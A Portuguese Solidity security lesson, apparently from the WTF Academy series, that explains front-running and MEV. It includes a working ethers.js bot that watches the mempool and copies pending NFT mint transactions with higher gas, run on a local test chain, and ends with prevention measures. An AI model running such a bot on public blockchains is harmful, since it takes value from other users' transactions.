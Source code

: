 # S11. Front-running de Transações

Recentemente, tenho revisado meus conhecimentos em solidity para consolidar os detalhes e também escrever um "Guia Simplificado de Solidity" para iniciantes (os especialistas em programação podem procurar outros tutoriais), com atualizações semanais de 1 a 3 lições.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Comunidade: [Discord](https://discord.gg/5akcruXrsk) | [Grupo do WeChat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link) | [Site oficial wtf.academy](https://wtf.academy)

Todo o código e tutoriais são de código aberto no GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

---

Nesta lição, vamos falar sobre o front-running de contratos inteligentes. Estima-se que arbitradores em Ethereum lucraram $1.2 bilhão através de ataques "sandwich" [fonte](https://dune.com/chorus_one/ethereum-mev-data).

## Front-running

### Front-running tradicional
O front-running surgiu inicialmente nos mercados financeiros tradicionais como uma competição puramente baseada no interesse pessoal. Nos mercados financeiros, a discrepância de informações deu origem a intermediários financeiros que podiam lucrar ao saberem primeiro de certas informações do setor e reagirem rapidamente. Esses ataques principalmente ocorrem em negociações de ações e em registros de domínios.

Em setembro de 2021, Nate Chastain, diretor de produto da OpenSea, foi descoberto lucrando ao comprar antecipadamente NFTs que seriam exibidos na página inicial da OpenSea.
Ele usava informações privilegiadas para obter uma vantagem desleal, sabendo quais NFTs a OpenSea promoveria na página inicial, ele comprava antes da exibição na página inicial para depois vendê-los quando os NFTs fossem para a página inicial. No entanto, uma pessoa conseguiu combinar o timestamp da transação do NFT com uma promoção suspeita de NFT na página inicial da OpenSea e descobriu essa atividade ilegal, levando Nate a ser processado.

Outro exemplo de front-running tradicional é quando há insider trading em tokens antes de serem listados em exchanges conhecidas como Binance e Coinbase. Após o anúncio de listagem, o preço do token tende a subir significativamente, e é nesse momento que os front-runners vendem para lucrar.

### Front-running em Blockchain

Front-running em blockchain refere-se a pesquisadores ou mineradores que inserem suas transações antes de outras, com o objetivo de capturar valor. Em blockchain, os mineradores têm a capacidade de aumentar o `gas` ou utilizar outros métodos para colocarem suas transações antes das demais e lucrarem com isso. No blockchain da Ethereum, o `MEV` mede esses lucros.

Geralmente, a maioria das transações de usuários são reunidas na Mempool antes de serem incluídas em um bloco na blockchain Ethereum. Os mineradores procuram priorizar transações com taxas mais altas para maximizarem seus lucros. Além disso, alguns robôs de `MEV` monitoram a Mempool em busca de transações lucrativas. Por exemplo, uma transação de troca (`swap`) em uma exchange descentralizada com um alto valor de deslizamento pode ser alvo de um ataque "sandwich": ajustando o `gas`, o negociante coloca uma ordem de compra antes e uma ordem de venda depois, lucrando com a diferença. Isso é semelhante à manipulação do preço de mercado.

![](./img/S11-1.png)

## Prática de Front-running

Se você dominar o front-running, será considerado um cientista do blockchain de nível iniciante. A seguir, vamos praticar um front-running ao uma transação de mint de um NFT. As ferramentas que utilizaremos são:
- A ferramenta `anvil` da `Foundry` para criar uma blockchain de teste local, certifique-se de instalar [foundry](https://book.getfoundry.sh/getting-started/installation) previamente.
- O `Remix` para implantação e mint do contrato NFT.
- Um script `etherjs` para escutar a Mempool e realizar o front-running.

**1. Inicializar uma blockchain de teste local com a Foundry:** Após ter instalado o `foundry`, na linha de comando, digite `anvil --chain-id 1234 -b 10` para criar uma blockchain de teste local, com chain-id 1234 e produzindo um bloco a cada 10 segundos. Após a inicialização bem sucedida, serão exibidos alguns endereços e chaves privadas de teste, cada conta com 10000 ETH. Você pode utilizá-las para testar.

**2. Conectar o Remix à blockchain de teste:** Acesse a página de implantação do Remix e no menu suspenso `Environment`, selecione `Foundry Provider` para conectar o Remix à blockchain de teste.

**3. Implante o contrato NFT:** No Remix, implante um contrato NFT de `freemint` (mint grátis). Esse contrato possui uma função `mint()` que permite o mint grátis de NFTs.

```solidity
// SPDX-License-Identifier: MIT
// By 0xAA
pragma solidity ^0.8.21;
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

// Tentaremos fazer um front-run de uma transação de mint gratuita
contract FreeMint is ERC721 {
    uint256 public totalSupply;

    // Construtor, inicializa o nome e símbolo da coleção de NFTs
    constructor() ERC721("Free Mint NFT", "FreeMint"){}

    // Função de mint
    function mint() external {
        _mint(msg.sender, totalSupply); // mint
        totalSupply++;
    }
}
```

**4. Implante o script de front-running ethers.js:** Em resumo, o script `frontrun.js` escuta as transações pendentes na Mempool da blockchain de teste, filtra as transações que chamam a função `mint()` e, em seguida, replica e aumenta o `gas` para realizar o front-running. Se você não estiver familiarizado com `ether.js`, pode ler o [Guia Simplificado de Ethers da WTF](https://github.com/WTFAcademy/WTF-Ethers).

```js
// provider.on("pending", listener)
import { ethers, utils } from "ethers";

// 1. Criar o provider
var url = "http://127.0.0.1:8545";
const provider = new ethers.providers.WebSocketProvider(url);
let network = provider.getNetwork()
network.then(res => console.log(`[${(new Date).toLocaleTimeString()}] Conectado ao chain ID ${res.chainId}`));

// 2. Criar um objeto de interface para decodificar os detalhes da transação.
const iface = new utils.Interface([
    "function mint() external",
])

// 3. Criar uma carteira para enviar transações de front-running
const privateKey = '0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a'
const wallet = new ethers.Wallet(privateKey, provider)

const main = async () => {
    // 4. Escutar as transações pendentes do mint, obter os detalhes da transação e decodificar.
    console.log("\n4. Escutar transações pendentes, obter o txHash e mostrar os detalhes da transação.")
    provider.on("pending", async (txHash) => {
        if (txHash) {
            // Obter detalhes da tx
            let tx = await provider.getTransaction(txHash);
            if (tx) {
                // Filtrar os dados da transação pendente
                if (tx.data.indexOf(iface.getSighash("mint")) !== -1 && tx.from != wallet.address ) {
                    // Mostrar o txHash
                    console.log(`\n[${(new Date).toLocaleTimeString()}] Escutando transação pendente: ${txHash} \r`);

                    // Mostrar os detalhes da transação decodificados
                    let parsedTx = iface.parseTransaction(tx)
                    console.log("Detalhes decodificados da transação pendente:")
                    console.log(parsedTx);
                    // Decodificar os dados da transação
                    console.log("Transação bruta")
                    console.log(tx);

                    // Construir a tx de front-running
                    const txFrontrun = {
                        to: tx.to,
                        value: tx.value,
                        maxPriorityFeePerGas: tx.maxPriorityFeePerGas * 1.2,
                        maxFeePerGas: tx.maxFeePerGas * 1.2,
                        gasLimit: tx.gasLimit * 2,
                        data: tx.data
                    }
                    // Enviar a transação de front-running
                    var txResponse = await wallet.sendTransaction(txFrontrun)
                    console.log(`Realizando front-running da transação`)
                    await txResponse.wait()
                    console.log(`Transação de front-running bem-sucedida`)                
                }
            }
        }
    });

    provider._websocket.on("error", async () => {
        console.log(`Não foi possível conectar a ${ep.subdomain} Tente novamente em 3s...`);
        setTimeout(init, 3000);
      });

    provider._websocket.on("close", async (code) => {
        console.log(
            `Conexão perdida com o código ${code}! Tentando reconectar em 3s...`
        );
        provider._websocket.terminate();
        setTimeout(init, 3000);
    });    
};

main()
```

**5. Chamar a função `mint()`:** Na página de implantação do Remix, chame a função `mint()` do contrato Freemint para realizar o mint do NFT.

**6. O script detecta a transação e realiza o front-running:** No terminal, você verá que o script `frontrun.js` conseguiu detectar a transação e realizar o front-running com sucesso. Se você consultar a função `ownerOf()` do contrato NFT e verificar o tokenID 0, verá que o detentor é o endereço da carteira usada pelo script de front-running, confirmando o sucesso do front-running!.

![](./img/S11-4.png)

## Métodos de Prevenção

O front-running é um problema comum em blockchains públicas como Ethereum. Não podemos eliminá-lo, mas podemos reduzir os lucros do front-running ao minimizar a importância da ordem e do tempo das transações:

- Utilize um esquema de precompromisso (commit-reveal scheme).
- Utilize dark pools, onde as transações dos usuários não entram na Mempool pública, indo direto para os mineradores. Por exemplo, flashbots e TaiChi.

## Conclusão

Nesta lição, abordamos o conceito de front-running em Ethereum, uma prática também conhecida como arbitragem de informações. Esse tipo de ataque, originado no mercado financeiro tradicional, é mais fácil de ser realizado em blockchains devido à transparência das informações. Realizamos um exemplo de front-running no tempo: front-runnar uma transação de mint de um NFT. Quando transações semelhantes forem necessárias, é melhor adotar medidas como pools ocultos ou leilões em lote para evitar esse tipo de ataque. O front-running é um problema comum em blockchains públicas como Ethereum, mas podemos reduzir os lucros dos front-runners ao minimizar a importância da ordem e do tempo das transações.

